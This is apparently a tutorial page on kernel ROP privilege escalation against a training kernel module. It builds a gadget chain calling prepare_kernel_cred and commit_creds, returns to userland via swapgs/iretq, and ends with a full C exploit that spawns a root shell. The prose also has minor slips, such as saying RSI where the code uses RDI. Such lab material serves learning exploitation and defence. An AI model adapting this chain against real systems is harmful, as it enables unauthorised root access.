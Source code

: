 ```yaml
---
description: Bypassing SMEP by ropping through the kernel
---
```


# Kernel ROP - Privilege Escalation in Kernel Space

The previous approach failed, so let's try and escalate privileges using purely ROP.&#x20;

## Modifying the Payload

### Calling prepare\_kernel\_cred()

First, we have to change the ropchain. Start off with finding some useful gadgets and calling `prepare_kernel_cred(0)`:

```c
uint64_t pop_rdi    =  0xffffffff811e08ec;
uint64_t swapgs     =  0xffffffff8129011e;
uint64_t iretq_pop1 =  0xffffffff81022e1f;

uint64_t prepare_kernel_cred    = 0xffffffff81066fa0;
uint64_t commit_creds           = 0xffffffff81066e00;

int main() {
    // [...]

    // overflow
    uint64_t payload[7];

    int i = 6;

    // prepare_kernel_cred(0)
    payload[i++] = pop_rdi;
    payload[i++] = 0;
    payload[i++] = prepare_kernel_cred;
    
    // [...]
}
```

Now comes the trickiest part, which involves moving the result of RAX to RSI before calling `commit_creds()`.

### Moving RAX to RDI for commit\_creds()

This requires stringing together a collection of gadgets (which took me an age to find). See if you can find them!

I ended up combining these four gadgets:

```c
0xffffffff810dcf72: pop rdx; ret
0xffffffff811ba595: mov rcx, rax; test rdx, rdx; jne 0x3ba58c; ret;
0xffffffff810a2e0d: mov rdx, rcx; ret;
0xffffffff8126caee: mov rdi, rax; cmp rdi, rdx; jne 0x46cae5; xor eax, eax; ret;
```

* **Gadget 1** is used to set RDX to `0`, so we bypass the `jne` in **Gadget 2** and hit `ret`
* **Gadget 2** and **Gadget 3** move the returned cred struct from RAX to RDX
* **Gadget 4** moves it from RAX to RDI, then compares RDI to RDX. We need these to be equal to bypass the `jne` and hit the `ret`

<pre class="language-c"><code class="lang-c">uint64_t pop_rdx                = 0xffffffff810dcf72;   // pop rdx; ret
uint64_t mov_rcx_rax            = 0xffffffff811ba595;   // mov rcx, rax; test rdx, rdx; jne 0x3ba58c; ret;
uint64_t mov_rdx_rcx            = 0xffffffff810a2e0d;   // mov rdx, rcx; ret;
uint64_t mov_rdi_rax            = 0xffffffff8126caee;   // mov rdi, rax; cmp rdi, rdx; jne 0x46cae5; xor eax, eax; ret;
<strong>
</strong><strong>// [...]
</strong><strong>
</strong><strong>// commit_creds()
</strong>payload[i++] = pop_rdx;
payload[i++] = 0;
payload[i++] = mov_rcx_rax;
payload[i++] = mov_rdx_rcx;
payload[i++] = mov_rdi_rax;
payload[i++] = commit_creds;
</code></pre>

### Returning to userland

Recall that we need `swapgs` and then `iretq`. Both can be found easily.

```
0xffffffff8129011e: swapgs; ret;
0xffffffff81022e1f: iretq; pop rbp; ret;
```

The `pop rbp; ret` is not important as `iretq` jumps away anyway.

To simulate the pushing of RIP, CS, SS, etc we just create the stack layout as it would expect - `RIP|CS|RFLAGS|SP|SS`, the reverse of the order they are pushed in.

```c
// commit_creds()
payload[i++] = swapgs;
payload[i++] = iretq;
payload[i++] = user_rip;
payload[i++] = user_cs;
payload[i++] = user_rflags;
payload[i++] = user_rsp;
payload[i++] = user_ss;

payload[i++] = (uint64_t) escalate;
```

If we try this now, we successfully escalate privileges!

## Final Exploit

```c
// gcc -static -o exploit exploit.c

#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>

void get_shell(void){
    puts("[*] Returned to userland");
    system("/bin/sh");
}

uint64_t user_cs;
uint64_t user_ss;
uint64_t user_rsp;
uint64_t user_rflags;

uint64_t user_rip = (uint64_t) get_shell;

void save_state(){
    puts("[*] Saving state");

    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );

    puts("[+] Saved state");
}

void escalate() {
    __asm__(
        ".intel_syntax noprefix;"
        "xor rdi, rdi;"
        "movabs rcx, 0xffffffff81066fa0;"   // prepare_kernel_cred
	    "call rcx;"
        
        "mov rdi, rax;"
	    "movabs rcx, 0xffffffff81066e00;"   // commit_creds
	    "call rcx;"

        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_rsp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;"
    );
}

uint64_t pop_rdi    =  0xffffffff811e08ec;
uint64_t swapgs     =  0xffffffff8129011e;
uint64_t iretq      =  0xffffffff81022e1f;              // iretq; pop rbp; ret

uint64_t prepare_kernel_cred    = 0xffffffff81066fa0;
uint64_t commit_creds           = 0xffffffff81066e00;

uint64_t pop_rdx                = 0xffffffff810dcf72;   // pop rdx; ret
uint64_t mov_rcx_rax            = 0xffffffff811ba595;   // mov rcx, rax; test rdx, rdx; jne 0x3ba58c; ret;
uint64_t mov_rdx_rcx            = 0xffffffff810a2e0d;   // mov rdx, rcx; ret;
uint64_t mov_rdi_rax            = 0xffffffff8126caee;   // mov rdi, rax; cmp rdi, rdx; jne 0x46cae5; xor eax, eax; ret;

int main() {
    save_state();

    // communicate with the module
    int fd = open("/dev/kernel_rop", O_RDWR);
    printf("FD: %d\n", fd);

    // overflow
    uint64_t payload[25];

    int i = 6;

    // prepare_kernel_cred(0)
    payload[i++] = pop_rdi;
    payload[i++] = 0;
    payload[i++] = prepare_kernel_cred;

    // commit_creds()
    payload[i++] = pop_rdx;
    payload[i++] = 0;
    payload[i++] = mov_rcx_rax;
    payload[i++] = mov_rdx_rcx;
    payload[i++] = mov_rdi_rax;
    payload[i++] = commit_creds;
        

    // commit_creds()
    payload[i++] = swapgs;
    payload[i++] = iretq;
    payload[i++] = user_rip;
    payload[i++] = user_cs;
    payload[i++] = user_rflags;
    payload[i++] = user_rsp;
    payload[i++] = user_ss;

    payload[i++] = (uint64_t) escalate;

    write(fd, payload, 0);
}

```
